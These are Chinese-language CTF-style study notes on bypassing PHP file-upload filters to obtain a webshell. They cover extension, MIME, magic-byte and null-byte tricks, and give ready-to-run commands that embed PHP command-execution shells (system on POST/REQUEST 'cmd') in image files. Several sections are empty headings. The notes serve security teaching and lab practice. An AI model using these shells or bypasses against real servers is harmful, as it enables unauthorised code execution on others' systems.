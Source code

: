 # 文件上传

文件上传通常有两个目的，第一是直接上传PHP等可执行文件，进而获取webshell。第二是通过上传包含有PHP代码的文件，再结合文件包含来获取webshell。

## 常用方法
### 客户端校验绕过

### 文件扩展名检测绕过

- 大小写绕过`pHp`
  - 检查时忽略大小写
- 双写绕过`phphpp`
  - 替换为空，替换后新的字符串为preg_replace(,'')
- 罕见后缀
  - ^\.ph(p[3457]?|t|tml|ps)$
- 解析特性
  - 1.php.666
  - /1.jpg/1.php


### 文件截断绕过（CVE-2006-7243）


```
**PHP before 5.3.4 **accepts the \0 character in a pathname, which might allow context-dependent attackers to bypass intended access restrictions by placing a safe file extension after this character, as demonstrated by .php\0.jpg at the end of the argument to the file_exists function.
```

### `Content-Type`检测绕过（MIME绕过）

`Content-Type`是一个HTTP头部字段，用于指示资源的原始媒体类型。`MIME`是媒体类型的一种标准。`Content-Type`字段使用`MIME`来表示媒体类型，是使用`MIME`的具体方式。

`MIME`类型的结构包括`类型`和`子类型`两部分，中间用斜杠`/`分割。[点击进一步了解](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Basics_of_HTTP/MIME_types)

`Content-Type`检测绕过方法为，直接修改为`image/png` , `text/plain`等。

- [getimagesize](https://www.php.net/manual/zh/function.getimagesize.php)
  - 在脚本文件开头补充图片对应的头部值，或在图片后写入脚本代码

### 文件内容绕过

- 文件头检测
  - `GIF89a`
- [PHP语言标记](/Web/PHP?id=标记)检测，在PHP 7以前版本，通常使用脚本标记`<script language="php"></script>`绕过

## 制作图片马

图片马指的是正常图片中包含有代码，常用制作方法如下：

```powershell
copy /b 1.jpg+1.php 2.jpg
```

```shell
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```
## 条件竞争

先保存文件，再检测文件内容。利用时间差，访问文件。

## 从文件上传到其他漏洞
## Zip/Tar文件上传后自动解压缩
## php-gd渲染绕过
## 练习题

- upload labs
- SUCTF 2019 Checkin
- GXYCTF2019BabyUpload
- HarekazeCTF2019 Avatar Uploader 

## 经典赛题分析
